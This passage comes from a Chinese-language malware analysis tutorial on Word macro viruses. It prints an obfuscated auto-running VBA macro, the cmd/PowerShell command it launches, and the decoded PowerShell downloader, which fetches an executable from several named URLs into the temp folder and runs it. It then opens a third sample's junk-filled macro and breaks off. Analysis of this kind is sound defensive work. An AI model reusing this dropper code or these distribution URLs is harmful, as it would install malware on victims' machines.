hdnhDuYKd = FGitvjHSw
tkqnlH = Mid("wdHfrVfjbwADcAOgAxADEANwB7ADEAMQA1ACYANAA1AHoAMQAwADIAYgAxADAAOAB6ADEAMAAxAH4AMQAwADUAWQAxADEANQBZADkAOQAhADEAMAA0AH4AMQAwADkAYgA5ADcAYgAxADEAMAB6A11BH3wMoDE4SIlE", 10, 138)
ScIOzQwUMHj = tkqnlH
szdUNVjur = PzhiLEBWJ
wzamU = Mid("whNAB6ADEAMAA4AGIANAA2AG0AOAA0AGIAMQAxADEAfgA4ADMAegAxADEANgBiADEAMQA0AG0AMQAwADUAbQAxADEAMAA6ADEAMAAzACEANAAwAG0ANAAxAHoANAA0AHoAMwAyACEAMwA2AG0A4vOqBUdaq1qn1thchE", 3, 144)
MthJuYP = wzamU
vziJsrqMu = WYTXVcMta
cqwMU = Mid("QjnkEoQif0vzwRUpzj9DcrA5AH4AMQAxADQAWQAxADAANQB+ADEAMQAyACEAMQAxADYAOgAzADIAWQA2ADEAbQAzADIAWQAxADEAMAAhADEAMAAxADoAMQAxADkAYgA0ADUAIQAxADEAMQBU0ntYjnSDmq5K", 23, 121)
EbUQjFzQMji = cqwMU
jNQSzJDJL = wWvdrZWLV
OfVqJ = Mid("TiRt3HNPcKQFXzYzD5zBEbGwegA5ADcAIQAxADAAOQA6ADEAMAAxACYAMwAyAH4ANgAxAFkAMwAyAH4AMwA2AH4AYQhknD2", 25, 64)
hpdwFmXNaN = OfVqJ
PiHliAaNV = XriEVRdSI
IwiDSbtjXNM = Mid("HqijWfnLLYUcpowUZTMNFWFwA2ADEAbQX2fLZc1w1PPk7JVF", 24, 9)
LJIEujI = IwiDSbtjXNM
sdzZGijtp = zshuBJHwL
XNpKBSQp = Mid("kf6rX0J0wo7sLii6ADEAMQAxAH4AMQAxADAAJgA0ADYAWQA3ADcAYgAxADAAMQB7ADEAMQA1AFkAMQAxADUAegJ2BQk9m", 16, 71)
LPjrKRijIw = XNpKBSQp
SzjQrknfR = jrBdAZQdi
jwrGYdkzCNC = Mid("AtDEANABZADEAMAA1ADoAMQAxADIAIQAxADEANgAmADQAN6f6zpUDiWd", 3, 44)
EzTYX = jwrGYdkzCNC
WqbZFkKbV = ncqVzZGKU
CmzXsmGKojc = Mid("rTCDYRjjiCNAA6ADEAMAA1AH4AMQAxADYASQAxADAAMQB6ADQANQA6ADEAMAA0AGIAMQAxADEAIQAxADEANQBJADEAMQA2AEkAMwAyADoAMwA2AFkAOQA1ACYANAA2AEkANgA5ACYAMQAyADAAfgA5ADkAbQAxADAAMQB+ADEAMQAyAH4AMQAxADYAYgAxADAANQBulOPH", 11, 187)
QYpwllzTSck = CmzXsmGKojc
ZclPlaQAC = oWrIiXalF
mAwtjzQ = Mid("dkAOgAxADAAOAA6ADEAMAA1ACEAMQAwADEAOgAxADEAMABZADEAMQA2AFkANAA2uJOYi2zO48HmdXNomG2zwpfcShY3M2zJnYLB", 2, 62)
ZbAAifkPrvN = mAwtjzQ
jtszGQPAD = bKtbWpErB
oWJLO = Mid("i3TbIXnBQGAxADIAMwBZADMANgB+ADEAMQA5ACYAMQAwADEAegA5ADgAegA5ADjWE", 11, 52)
DGLkaA = oWJLO
zHFAIEhVF = dfwTvMTXR
EKYFiRhEXFw = Mid("KnNUzlTmADEAMAAwADoAMQAxADEAJgAxADAAOQA6ADQANgB7ADEAMQAwADoAMQAwADEAegAxADIAMABJADEAMQA2AH4ANAAwAG0ANAA5AFkANAA0AFkAMwAyACYANQA0AG00PriiWvtTcTzBJm2tJ1j", 8, 124)
zSGEI = EKYFiRhEXFw
cZWVzlXoq = JMzCDmWdd
SFdjwWp = Mid("zPHvKMQAxADIASQA5ADcAWQAxADEANgBiADEAMAA0ACEANAAxACEANQA5AHoAOAAzADoAMQAxADYASQA5ADcASQAxADEANAA6ADEAMQA2AHoANAA1AGIAOAAwAFkAMQAxADQAYgAxADEAMQAhADkAOQBJADEAMA9pqIbizJibVUjF5C", 6, 154)
OkBajT = SFdjwWp
ziknRkKlU = EIPhIwXbR
DcABZPAtp = Mid("Ph4HGzYkfOCGqZiwdDGa3TvRI46jLtBiSAzADkAIQA0ADYAIQAxADAAMQA6ADEAMgAwAHsAMQAwADEAJgAzADkAfgA1ADkAfgAxADAAMgA6ADEAMQAxACEAMQAxADQAegAxADAAMQAmADkANwB+ADkAOQA6ADEAMAA0AGIANAAwACYAMwA2AG0AMQAxADcAIQAxADEANABZADEAMAA4AEkAMwAyAH4AMQAwPn59", 34, 194)
CWMpLVkSS = DcABZPAtp
ibHUdTOYI = FabLwRiUp
cBUrWQJBDX = Mid("XmOJgAxADAAOAA6ADEAMQA1AGIzN3QzjhpYQj5G3IKoCPMI", 4, 23)
lcPiAkbq = cBUrWQJBDX
hpIlKOQSj = bbEBfbVrB
MvpXHXC = Mid("z5nzXvB8SLdaMXOJ2AMwAyAEkANgAxACYAMwAyAGIAMwA5ACYAMQAwADQAWQAxADEANgB+ADEAMQA2AEkAMQAxADIAJgA1ADgAYgA0ADcAJgA0ADcAbQA5ADSC", 18, 103)
HnZjzd = MvpXHXC
WiEQYtbFL = stLzwnJqm
vajVOP = Mid("RGKthsDsJzwtA5ADcAYgAxADAAMwBJADEAMAAxAHsANQA5AFkAMQAyADUAfgAxADIANQAnAC4AcwBQAEwAaQBUACgAIAAnAFkAJgB7AG0AOgBiACE8UDpdPzMzSYXt3P57", 13, 101)
GzjkYUBnqXG = vajVOP
JtQsEKnnw = DEvzqFPLp
kEROiFMIq = Mid("j4Ja9dOW453qN2YADEAMAA5AEkZA0c3hwNX3JwzjtcQXbvF6aP", 16, 11)
icAYwsLVpUA = kEROiFMIq
kQQOJFDXZ = UddQropLw
irUIcwRD = Mid("Au1EHs6ti0AmADUAOQB6ADMANgAmADEAMQA3AHsAMQAxADQA7Wj9C5z0PqNsb2IoN9LTqN", 11, 38)
bapZdDJB = irUIcwRD
kdaudlwYB = PtDFhmwZZ
iFmWVaPu = Mid("AX2dCwbGzBwRzR0B9ACAAKQAtAEoATwBpAG4AJwAnACAAKQA=57cAXn5i8m8q2JvPWDXAo", 16, 34)
KbFniuHlZAr = iFmWVaPu
WujLpjlSJ = TnMGKiHih
hfcbdZkXOQ = Mid("MofaM2kwYCF3hI3pREPq5wADEAWQA5ADkAhBAoZ3SX", 22, 13)
OWGLMOBo = hfcbdZkXOQ
OpniRlEni = VOwqRSPSQ
zXXPDkaDCDf = Mid("UMBH8K03MAPWjNr4AA0AHsAMQAwADEAYgAxADAAOAB+ADEAMAA4AGIANQA5ACYAMwA2ACEAMQAxADkAegAxADAAMQBZADkAOAAmADkAOQB6ADEAMAA4AEkAMQAwADUAewAxADAAMQBZADEAMQAwADoAMQAxADYAWQAzADIAejavu33", 17, 152)
iCUMSYusIv = zXXPDkaDCDf
OZouIKbdk = oJiYwCEkj
pDDDLci = Mid("5l8w3MoVMQAxADQAOgA5ADcAegAxADEAMAArVwfzX20rok3a", 9, 27)
NwSKajzAjmw = pDDDLci
lrczHCBPD = NcVurrNsF
cYFmodmUji = Mid("Xr8i8vwXK63tEGUAFM4fpIlA5ADcASQAxADEANgB7ADEAMAA1AGIAMQAwADEAIQAxADAANwBtADkANwBZADEAMQAwACYAMQAxADYASQAxADEAMQBiADEAMQAxAG0AMQAxADQAWQA5ADkAewAxADAAOAB+Ar2UuHBTQ", 24, 131)
kKRBFkTYOSq = cYFmodmUji
tThcDoAPi = vzQtlhidb
FPmzKLZZjn = Mid("UZV2SLzYBcmKjhjOAB7ADEAMAA2ADoAMQAuW61n", 16, 19)
bYcfSuOhsf = FPmzKLZZjn
nRRltsHOB = PtSrLGzLR
KftEZiGv = Mid("ZOQB6ADEAMQA1AG0AOQGqcXPjVTGBVwHur", 2, 18)
PcapUM = KftEZiGv
CIoowrYFS = nUqoLNQZb
CfjsS = Mid("pZPkhRPZtdoEjR3UWRwYAMQAxADIAWQAzADIAegA0ADMAegAzADIAbQAzADkASQA5ADIAegAzADkAIQAzADIAYgA0ADMAOgAzADIAJgAzADYAYgAxAoA", 21, 94)
sbpNlLMLdC = CfjsS
nHaoVpmlW = MEmKwaQjV
haGppvzwpLm = Mid("MWhOm3Q1WQAxADEANgB+ADMAMgB7ADgAMwBJADEAMgAxAHsAMQAxADUASQAxADEANgB7v", 9, 59)
wZkHuAqmza = haGppvzwpLm
Shell$ RTUHFOzsK + Chr(34) + iBSRmkhEj + XvLAfRK + PcapUM + EbUQjFzQMji + RkSMsXZmbbj + IAFUul + EzTYX + YhuVfBw + iCUMSYusIv + LJIEujI + AcOZjKGHd + bYcfSuOhsf + OWGLMOBo + wZkHuAqmza + kzLPNEjwRpi + iKnPNTjHYUN + FRdXUFElRa + awBiLS + bapZdDJB + lcPiAkbq + HnZjzd + LPwcEG + JZJjMfIbBG + nGmuz + muHlMzvW + mvotcU + CPOtaunKXFw + fizsQ + ScIOzQwUMHj + SPEOqDL + OXrPUEbnvR + orwEYmMBR + kKRBFkTYOSq + zwsMjwQJTv + TjXFztBK + HczVFWDHVzj + hpdwFmXNaN + NwSKajzAjmw + zSGEI + fcjRIRH + rBTCHaK + icAYwsLVpUA + sbpNlLMLdC + lbjqdjR + TBNjdzzzh + CWMpLVkSS + bbvLjLAvSJ + DGLkaA + ZbAAifkPrvN + wJLOSQhR + MthJuYP + OkBajT + fhXwGUGo + KIwkY + QYpwllzTSck + LPjrKRijIw + GzjkYUBnqXG + cslql + KbFniuHlZAr, 0
End Function
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Attribute VB_Name = "wAwJBjJQJ"
Function RTUHFOzsK()
SSIhYOGKB = BBqMNPjSw
bkspY = Mid("zYsMfzXjUkZcWdEGwAVSztCl", 12, 1)
pGHmjw = bkspY
THZbsWKtF = GApwOicZH
VEbORpJELT = Mid("w  ULjXwAKAb", 2, 2)
siCAq = VEbORpJELT
HPhRfOHnm = TOvllapZt
jpucp = Mid("dwOtbdJnhnCwfmAwZ  qUwQ", 18, 2)
aLAikTZzXH = jpucp
fqalXfJAK = LCnHkoIcD
VuuwVO = Mid("sXFWPUriJfKTpqQrVtOvwpYvPcmRpGfQk", 26, 2)
FItfpaapu = VuuwVO
OBbLUEjqi = KUOOIoowi
FVvtMEG = Mid("HdAFDcAsATviDfWzFFzpaz  pXJcWfwf", 23, 2)
ajJRwS = FVvtMEG
jVrCIfDvl = zLiGcJXbX
ZrAYDPTq = Mid("iHOvIROFpzkqDsbh  OWUdhlpCiwZMTtrODJzmwsH", 17, 2)
jiAGQiQw = ZrAYDPTq
SUWWCjAwf = vzuwToFbG
jmtkTTkrF = Mid("wYuqqVtGZiJmAXAhOSuPBlkv ZpEnSjLlFJZnGcc", 24, 2)
GcmZjTwn = jmtkTTkrF
LMtwHYSki = ADrFrhRWc
NEiTwbDXjd = Mid("ffAMXNhHaz  tNilfGXhcTPPsBKcvGidzFR", 11, 2)
RjvFUJZEqEH = NEiTwbDXjd
LKTKBJzHw = rAsqBBCLO
riLqL = Mid("VYSzUNAfirLhNHuvTkkpqTYI NBTb", 25, 1)
wjCNaFw = riLqL
iVMwDRCAv = nqFMhzLtQ
hCfFzWOivq = Mid("HRJzsdTznHRYYLErvnJSVjftUhUujlLVzZfA", 6, 1)
NBOCDBCM = hCfFzWOivq
nAKjzzabj = lKCqCjSmA
bGAdVi = Mid("RMiPstNpOmmrqQf/wzkf", 16, 1)
uFHPYHoifcS = bGAdVi
PNGBIBOLR = tiTviHlPK
BzbiCjnQqm = Mid("AikEQJtLfHomiYXDjK /fbjKtsWuJLaJzImkOi", 19, 2)
IjUTlUqWHO = BzbiCjnQqm
EuXMYbiQq = tznZtuwvj
rZKmALU = Mid("ijpGMkvqVjf  zj", 12, 2)
uGUWvBHvsD = rZKmALU
RTUHFOzsK = FItfpaapu + NBOCDBCM + IjUTlUqWHO + GcmZjTwn + uFHPYHoifcS + pGHmjw + jiAGQiQw + RjvFUJZEqEH + siCAq + uGUWvBHvsD + ajJRwS + aLAikTZzXH + wjCNaFw
End Function
Sub AutoOpen()
KlsJVlijz
End Sub
```

可以看到这段宏经过了严重的混淆，方法名，变量名，以及字符串都经过了严重的混淆，如果按照程序的流程一步步分析，怕是要分析到吐血。这个时候我们可以用取巧的方式，纯粹的宏能做到事情实际上是有限的，一般是对文档或模板的操作。而宏病毒往往是作为payload的载体，通过创建其他例程，释放运行payload。无论宏病毒前面执行了多么复杂的操作，最后肯定会运行payload，而运行payload的方式可能是Shell、WScript.Shell、Application.Run等（以及前面提到的winmgmts方式），我们可以直接搜索这些字符串迅速定位到运行payload的地方。

在本例中，搜索“Shell”，定位如下位置：



Shell的参数，是一段字符串，这段字符串就是最终会执行的命令，我们修改宏代码，将这段字符串保存下来，以便查看字符串内容：

提取到字符串内容如下

```shell
cmd /v /c             "set %cDpiTrLVN%=wers&&set %SuZmiriSa%=JwsADfCTs&&set %KlsJVlijz%=po&&set %qfSAwAXEM%=MrqzTiJDT&&set %PqjuFnVOr%=hell&&set %SqYwAARBW%=VcQFWjpkv&&!%KlsJVlijz%!!%cDpiTrLVN%!!%PqjuFnVOr%! -e LgAgACgAKAB2AEEAUgBpAEEAYgBMAGUAIAAnACoAbQBEAFIAKgAnACkALgBuAGEAbQBFAFsAMwAsADEAMQAsADIAXQAtAEoATwBJAG4AJwAnACkAIAAoACgAJwAzADYAOgAxADEAOQB6ADEAMQA1AG0AOQA5AH4AMQAxADQAWQAxADAANQB+ADEAMQAyACEAMQAxADYAOgAzADIAWQA2ADEAbQAzADIAWQAxADEAMAAhADEAMAAxADoAMQAxADkAYgA0ADUAIQAxADEAMQB7ADkAOAA6ADEAMAA2AG0AMQAwADEAOgA5ADkAbQAxADEANgBiADMAMgBiADQANQAhADYANwBJADEAMQAxACYAMQAwADkAbQA3ADkAOgA5ADgAfgAxADAANgBiADEAMAAxAFkAOQA5AEkAMQAxADYAbQAzADIAfgA4ADcAYgA4ADMAJgA5ADkAbQAxADEANABZADEAMAA1ADoAMQAxADIAIQAxADEANgAmADQANgB+ADgAMwB7ADEAMAA0AHsAMQAwADEAYgAxADAAOAB+ADEAMAA4AGIANQA5ACYAMwA2ACEAMQAxADkAegAxADAAMQBZADkAOAAmADkAOQB6ADEAMAA4AEkAMQAwADUAewAxADAAMQBZADEAMQAwADoAMQAxADYAWQAzADIAewA2ADEAbQAzADIASQAxADEAMABZADEAMAAxACEAMQAxADkAJgA0ADUAJgAxADEAMQB6ADkAOAB7ADEAMAA2ADoAMQAwADEAWQA5ADkAWQAxADEANgB+ADMAMgB7ADgAMwBJADEAMgAxAHsAMQAxADUASQAxADEANgBZADEAMAAxAG0AMQAwADkAYgA0ADYASQA3ADgAWQAxADAAMQA6ADEAMQA2AGIANAA2AGIAOAA3AH4AMQAwADEASQA5ADgAbQA2ADcAYgAxADAAOABJADEAMAA1ADoAMQAwADEAIQAxADEAMAAhADEAMQA2AGIANQA5ACYAMwA2AG0AMQAxADQAbQA5ADcAegAxADEAMABiADEAMAAwACYAMQAxADEAegAxADAAOQAhADMAMgBJADYAMQBJADMAMgB6ADEAMQAwACYAMQAwADEAIQAxADEAOQAmADQANQAmADEAMQAxAH4AOQA4AFkAMQAwADYAYgAxADAAMQAhADkAOQBtADEAMQA2AHoAMwAyAEkAMQAxADQAegA5ADcAegAxADEAMAB6ADEAMAAwACYAMQAxADEAbQAxADAAOQAmADUAOQB6ADMANgAmADEAMQA3AHsAMQAxADQAJgAxADAAOAA6ADEAMQA1AGIAMwAyAEkANgAxACYAMwAyAGIAMwA5ACYAMQAwADQAWQAxADEANgB+ADEAMQA2AEkAMQAxADIAJgA1ADgAYgA0ADcAJgA0ADcAbQA5ADcASQAxADAAMwB+ADEAMAAxAHoAMQAxADAAfgAxADEANgAmADEAMQA1AEkAMQAwADUAOgAxADEAMABJADkANwBtADkAOQB7ADEAMQA2AGIAMQAwADUAYgAxADEAMQA6ADEAMQAwAFkANAA2AH4AMQAwADAAJgAxADAAMQBJADQANwAhADcAOAB7ADgAOQAhADEAMAA3AEkAOAAzAG0AMQAwADIAJgA0ADcAegA0ADQAJgAxADAANAB6ADEAMQA2AH4AMQAxADYAIQAxADEAMgB7ADUAOAB7ADQANwBiADQANwAmADEAMAAxAFkAMQAwADAAYgAxADEAMQB7ADEAMQAwAHsAMQAxADAAOgAxADAAMQAmADEAMQA2AGIANAA2ACEAMQAwADAAOgAxADAAMQBiADQANwAmADEAMQA0AEkANAA3AH4ANAA0AHoAMQAwADQAbQAxADEANgBZADEAMQA2ACYAMQAxADIAfgA1ADgAewA0ADcAJgA0ADcAYgAxADAAOQBiADEAMgAxAH4AOQA4AFkAMQAxADcAewAxADIAMQB+ADEAMAA1AG0AMQAxADAAegAxADAAMwBJADkANwB6ADEAMAAzAHoAMQAwADEAOgAxADEAMAA6ADEAMQA2ACYANAA2AG0AOQA5AFkAMQAxADEAbQAxADAAOQBiADQANwBJADgAMwBiADEAMAA3ACYANgA1ADoAOAA1AFkANAA3AFkANAA0ACYAMQAwADQAegAxADEANgBiADEAMQA2ACYAMQAxADIAewA1ADgAJgA0ADcAegA0ADcAOgAxADAAOQBtADkANwAmADEAMQA0ACEAMQAwADcAOgAxADEANwB7ADEAMQA1ACYANAA1AHoAMQAwADIAYgAxADAAOAB6ADEAMAAxAH4AMQAwADUAWQAxADEANQBZADkAOQAhADEAMAA0AH4AMQAwADkAYgA5ADcAYgAxADEAMAB6ADEAMQAwAGIANAA2AGIAMQAwADAAYgAxADAAMQB7ADQANwAhADEAMQA4AHsAOAA3AG0AMQAwADMAOgA0ADcAbQA0ADQAJgAxADAANAAhADEAMQA2AG0AMQAxADYAewAxADEAMgBiADUAOAAhADQANwBiADQANwAmADkANwB6ADEAMAAwAFkAMQAwADkAegAxADAANQA6ADEAMQAwAHsAMQAwADUAYgAxADEANQBZADEAMQA2AH4AMQAxADQAbQA5ADcASQAxADEANgB7ADEAMAA1AGIAMQAwADEAIQAxADAANwBtADkANwBZADEAMQAwACYAMQAxADYASQAxADEAMQBiADEAMQAxAG0AMQAxADQAWQA5ADkAewAxADAAOAB+ADEAMAAxAEkAMQAxADEAegA0ADYAbQAxADEAMAAmADEAMAA4AH4ANAA3AHsAMQAxADYAYgA2ADYAJgAxADAAMgB+ADQANwBZADMAOQB+ADQANgB6ADgAMwBiADEAMQAyAH4AMQAwADgAWQAxADAANQBZADEAMQA2AHsANAAwAHsAMwA5AH4ANAA0AG0AMwA5AEkANAAxACEANQA5AG0AMwA2ACEAMQAxADAAegA5ADcAIQAxADAAOQA6ADEAMAAxACYAMwAyAH4ANgAxAFkAMwAyAH4AMwA2AH4AMQAxADQAOgA5ADcAegAxADEAMAAmADEAMAAwADoAMQAxADEAJgAxADAAOQA6ADQANgB7ADEAMQAwADoAMQAwADEAegAxADIAMABJADEAMQA2AH4ANAAwAG0ANAA5AFkANAA0AFkAMwAyACYANQA0AG0ANQAzAHsANQAzAFkANQAxAGIANQA0ACEANAAxAHsANQA5AFkAMwA2AG0AMQAxADIAOgA5ADcAewAxADEANgBJADEAMAA0AHoAMwAyAEkANgAxAG0AMwAyAHoAMwA2AFkAMQAwADEAWQAxADEAMAB6ADEAMQA4AFkANQA4AG0AMQAxADYAIQAxADAAMQAmADEAMAA5AEkAMQAxADIAWQAzADIAegA0ADMAegAzADIAbQAzADkASQA5ADIAegAzADkAIQAzADIAYgA0ADMAOgAzADIAJgAzADYAYgAxADEAMAAmADkANwB6ADEAMAA5ADoAMQAwADEAegAzADIAJgA0ADMAbQAzADIAYgAzADkAIQA0ADYAIQAxADAAMQA6ADEAMgAwAHsAMQAwADEAJgAzADkAfgA1ADkAfgAxADAAMgA6ADEAMQAxACEAMQAxADQAegAxADAAMQAmADkANwB+ADkAOQA6ADEAMAA0AGIANAAwACYAMwA2AG0AMQAxADcAIQAxADEANABZADEAMAA4AEkAMwAyAH4AMQAwADUAYgAxADEAMABZADMAMgAmADMANgA6ADEAMQA3AH4AMQAxADQAfgAxADAAOAB7ADEAMQA1ACYANAAxAFkAMQAyADMAYgAxADEANgBJADEAMQA0AH4AMQAyADEAfgAxADIAMwBZADMANgB+ADEAMQA5ACYAMQAwADEAegA5ADgAegA5ADkAOgAxADAAOAA6ADEAMAA1ACEAMQAwADEAOgAxADEAMABZADEAMQA2AFkANAA2AFkANgA4AHoAMQAxADEASQAxADEAOQAhADEAMQAwACEAMQAwADgAWQAxADEAMQA6ADkANwBiADEAMAAwAFkANwAwACYAMQAwADUAOgAxADAAOAAhADEAMAAxAEkANAAwAG0AMwA2ACEAMQAxADcAYgAxADEANAB6ADEAMAA4AGIANAA2AG0AOAA0AGIAMQAxADEAfgA4ADMAegAxADEANgBiADEAMQA0AG0AMQAwADUAbQAxADEAMAA6ADEAMAAzACEANAAwAG0ANAAxAHoANAA0AHoAMwAyACEAMwA2AG0AMQAxADIASQA5ADcAWQAxADEANgBiADEAMAA0ACEANAAxACEANQA5AHoAOAAzADoAMQAxADYASQA5ADcASQAxADEANAA6ADEAMQA2AHoANAA1AGIAOAAwAFkAMQAxADQAYgAxADEAMQAhADkAOQBJADEAMAAxAH4AMQAxADUASQAxADEANQA6ADMAMgAmADMANgAmADEAMQAyAGIAOQA3AHsAMQAxADYASQAxADAANAB+ADUAOQAhADkAOAB7ADEAMQA0AGIAMQAwADEAOgA5ADcAWQAxADAANwB7ADUAOQB+ADEAMgA1AFkAOQA5ACEAOQA3AHoAMQAxADYAfgA5ADkAfgAxADAANABiADEAMgAzACEAMQAxADkAfgAxADEANAA6ADEAMAA1AH4AMQAxADYASQAxADAAMQB6ADQANQA6ADEAMAA0AGIAMQAxADEAIQAxADEANQBJADEAMQA2AEkAMwAyADoAMwA2AFkAOQA1ACYANAA2AEkANgA5ACYAMQAyADAAfgA5ADkAbQAxADAAMQB+ADEAMQAyAH4AMQAxADYAYgAxADAANQB6ADEAMQAxAH4AMQAxADAAJgA0ADYAWQA3ADcAYgAxADAAMQB7ADEAMQA1AFkAMQAxADUAegA5ADcAYgAxADAAMwBJADEAMAAxAHsANQA5AFkAMQAyADUAfgAxADIANQAnAC4AcwBQAEwAaQBUACgAIAAnAFkAJgB7AG0AOgBiACEASQB+AHoAJwAgACkAIAB8ACAAJQB7ACgAIABbAEkAbgB0AF0AJABfAC0AYQBTACAAWwBDAEgAYQByAF0AKQB9ACAAKQAtAEoATwBpAG4AJwAnACAAKQA=
```

实际上是使用的cmd执行powershell命令，有趣的是“powershell”字符串被分为”po”、”wers”、”hell”三部分，通过拼接形成“powershell”字符串：



依然是要Base64解密powershell命令，又是一段混淆过的代码

```powershell
. ((vARiAbLe '*mDR*').namE[3,11,2]-JOIn'') (('36:119z115m99~114Y105~112!116:32Y61m32Y110!101:119b45!111{98:106m101:99m116b32b45!67I111&109m79:98~106b101Y99I116m32~87b83&99m114Y105:112!116&46~83{104{101b108~108b59&36!119z101Y98&99z108I105{101Y110:116Y32{61m32I110Y101!119&45&111z98{106:101Y99Y116~32{83I121{115I116Y101m109b46I78Y101:116b46b87~101I98m67b108I105:101!110!116b59&36m114m97z110b100&111z109!32I61I32z110&101!119&45&111~98Y106b101!99m116z32I114z97z110z100&111m109&59z36&117{114&108:115b32I61&32b39&104Y116~116I112&58b47&47m97I103~101z110~116&115I105:110I97m99{116b105b111:110Y46~100&101I47!78{89!107I83m102&47z44&104z116~116!112{58{47b47&101Y100b111{110{110:101&116b46!100:101b47&114I47~44z104m116Y116&112~58{47&47b109b121~98Y117{121~105m110z103I97z103z101:110:116&46m99Y111m109b47I83b107&65:85Y47Y44&104z116b116&112{58&47z47:109m97&114!107:117{115&45z102b108z101~105Y115Y99!104~109b97b110z110b46b100b101{47!118{87m103:47m44&104!116m116{112b58!47b47&97z100Y109z105:110{105b115Y116~114m97I116{105b101!107m97Y110&116I111b111m114Y99{108~101I111z46m110&108~47{116b66&102~47Y39~46z83b112~108Y105Y116{40{39~44m39I41!59m36!110z97!109:101&32~61Y32~36~114:97z110&100:111&109:46{110:101z120I116~40m49Y44Y32&54m53{53Y51b54!41{59Y36m112:97{116I104z32I61m32z36Y101Y110z118Y58m116!101&109I112Y32z43z32m39I92z39!32b43:32&36b110&97z109:101z32&43m32b39!46!101:120{101&39~59~102:111!114z101&97~99:104b40&36m117!114Y108I32~105b110Y32&36:117~114~108{115&41Y123b116I114~121~123Y36~119&101z98z99:108:105!101:110Y116Y46Y68z111I119!110!108Y111:97b100Y70&105:108!101I40m36!117b114z108b46m84b111~83z116b114m105m110:103!40m41z44z32!36m112I97Y116b104!41!59z83:116I97I114:116z45b80Y114b111!99I101~115I115:32&36&112b97{116I104~59!98{114b101:97Y107{59~125Y99!97z116~99~104b123!119~114:105~116I101z45:104b111!115I116I32:36Y95&46I69&120~99m101~112~116b105z111~110&46Y77b101{115Y115z97b103I101{59Y125~125'.sPLiT( 'Y&{m:b!I~z' ) | %{( [Int]$_-aS [CHar])} )-JOin'' )
```

解混淆过程倒是很容易，将上述代码中'Y&{m:b!I~z'字符全都去掉，将数字按ASCII转为可见字符，笔者写了一个解混淆的脚本，这里就不贴代码了，详细见附件。

解混淆后 powershell命令如下：

```powershell
$wscript = new-object -ComObject WScript.Shell;
$webclient = new-object System.Net.WebClient;
$random = new-object random;
$urls = 'http://agentsinaction.de/NYkSf/,http://edonnet.de/r/,http://mybuyingagent.com/SkAU/,http://markus-fleischmann.de/vWg/,http://administratiekantoorcleo.nl/tBf/'.Split(',');
$name = $random.next(1, 65536);
$path = $env:temp + '\' + $name + '.exe';
foreach($url in $urls){
	try{
		$webclient.DownloadFile($url.ToString(), $path);
	Start-Process $path;break;
	}
	catch{write-host $_.Exception.Message;}
```

代码很清晰了，有一堆URL，依次从这些URL中下载文件并运行。

至此，其宏功能分析完成。

## 样本3-行为监控

照例使用oledump.py提取宏：

```VB
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Private Sub krWYMv(yEhCWku As Double, BVRjUu As String, HjIncuv As String, nkquFxh As Boolean, rzYuAy As Integer)
    JFQpA = 1706 + 100 + 1227
    HxOCtG = UCase("HNgvaYMaLfeLlQ")
    lpHJCW = 704 - 1812 - 822
    JFQpA = 119 + 1061 + 668
    lSXJu = RTrim("D_#yxi?#QIxdfF?#x")
    lqHGigxO = ".RO#mOGQwnZbHyl" + "iWrYzDpboCgL[w[" + "duOrl$twnF)]hPNi sW"
    lqHGigxO = LTrim("qrJ)LrxC-iT-OI")
    JYlziOG = Right("SxidBiXJGbYha_", 3)
    cBnVLr = "LT?cyT-D-Za&]pdU$" + "&Dsj?)[qT]jys&k" + "]vDETAJJDSr%K]&"
    HxOCtG = 413 + 921 + 1844
    JYlziOG = 968 + 528 + 1352
    While xyHkbj < 319
        ivHvQYLI = StrReverse("@eyITWp-nZH(H")
        JFQpA = StrReverse("AaDcvjs?JBTAm-lPs")
        cSFOmFC = StrReverse("X-*_MppXe-rLeA")
        xyHkbj = xyHkbj + 2
    Wend

    WFOwIfq = LTrim("#xFvjBCjGExT")
    lpHJCW = 1046 - 630 - 1630
    While jGksJE < 268
        HxOCtG = UCase("Q(Ehm!Pjk*F%azp*JG$y")
        lqHGigxO = 919 - 104 - 1733
        cBnVLr = Right("ujf[xbyERh", 4)
        JYlziOG = 1643 + 1965 + 369
        lqHGigxO = 1460 - 928 - 1195
        jGksJE = jGksJE + 1
    Wend

    cSFOmFC = Space(4)
    ivHvQYLI = 274 - 1162 - 519
    WFOwIfq = UCase("VCfM?B(pp(rV")
    JFQpA = LTrim("]Tjch]YU_Lrq[e")
    lqHGigxO = Right("rwdn.r-.rh_xJS-xwXW", 2)
    lqHGigxO = RTrim("._xGkZnMxd?D")
    ivHvQYLI = 1273 + 208 + 1566
    cBnVLr = 1725 + 239 + 1651
    lpHJCW = LTrim("^Pp.)_wZ.?CSJ")
    JYlziOG = Space(7)
    JFQpA = Space(16)
End Sub

Private Function ZXjbwO(FvmJRw As Boolean, qrvRBi As Integer, XbHUQMH As String, SQUQST As String) As String
    qCgwRDt = 1162 + 1832 + 620
    While mGPhEj < 354
        cSFOmFC = "o^icTLuoEDKK.VWfs" + "xu?nRp*QGa]!" + "O]_@&#(AHG G-TMG"
        WFOwIfq = "hY$r)wFz[JW$qm[nOOx" + "xFuiU%*yXNihnU((" + "uQAHtdaXNzCX"
        lSXJu = LTrim("MCU(]%LN&J]L(]C")
        JFQpA = LTrim("?!BKCL.PFmjs")
        lpHJCW = Left("YQ*E($K)#XfE#MUCT-on", 2)
        qCgwRDt = 302 + 110 + 1826
        mGPhEj = mGPhEj + 3
    Wend

    For BJgLNF = 0 To 19
        JYlziOG = Left(")VG[Tqj-R[kyfZF", 4)
        JFQpA = 1684 + 727 + 747
        qCgwRDt = 331 + 638 + 1165
    Next BJgLNF

    JFQpA = Right("#!nR#!yKxzwrBgLew*A.", 4)
    cBnVLr = 790 + 130 + 1643
    HxOCtG = LTrim("J^LIw@@I_urM?C.?F)*g")
    ivHvQYLI = Space(4)
    RMDeRo = Right("(p(JvnCAhksRD", 4)
    lSXJu = LTrim("A$Fo^dZ.cW UpxrM(Dr")
    qCgwRDt = Right(")TXT^J%D*dkrEIT-[-G", 3)
    HxOCtG = UCase("uRSt@?WwV *fh.)I_XI")
    ivHvQYLI = StrReverse("WeC]qVjmJi%?kq")
    cBnVLr = 718 + 1362 + 492
